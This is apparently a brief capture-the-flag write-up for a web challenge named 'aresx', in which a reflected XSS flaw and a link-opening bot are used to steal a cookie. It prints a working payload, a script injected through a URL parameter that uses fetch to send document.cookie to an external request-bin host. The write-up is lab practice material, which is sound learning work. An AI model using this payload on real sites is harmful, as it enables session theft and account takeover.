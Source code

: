 ```yaml
---
layout: post
title:  "server challenge aresx"
image: /assets/img/aresx.png
date:   2022-08-29 21:52:19
tags:
- web
description: The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened
categories:
- web
---
```


The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened:
![](/assets/img/2022-08-11-11-18-01.png)
Figure 1 The first app


![](/assets/img/2022-08-11-11-18-14.png)
Figure 2 Second app
The input to be opened by it is : 
http://vanilla.hub/?name=<script>fetch('https://enzvin6fpk7xtu0.m.pipedream.net', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>


https://enqmimydnbiuecc.m.pipedream.net
For the purpose of this challenge request.bin

 ![](2022-08-11-11-18-26.png)
Figure 3 this is the stolen cookie
 ![](2022-08-11-11-18-35.png)
Figure 4 Vulnerable code in the application

 ![](2022-08-11-11-18-43.png)
Figure 5 Docker config hostname
Because the get request to the 3002 app will echo it to the page Reflected XSS is possible.  The bot on 3003 will open our request with the xss and we steal the cookie and then boom we’re done.
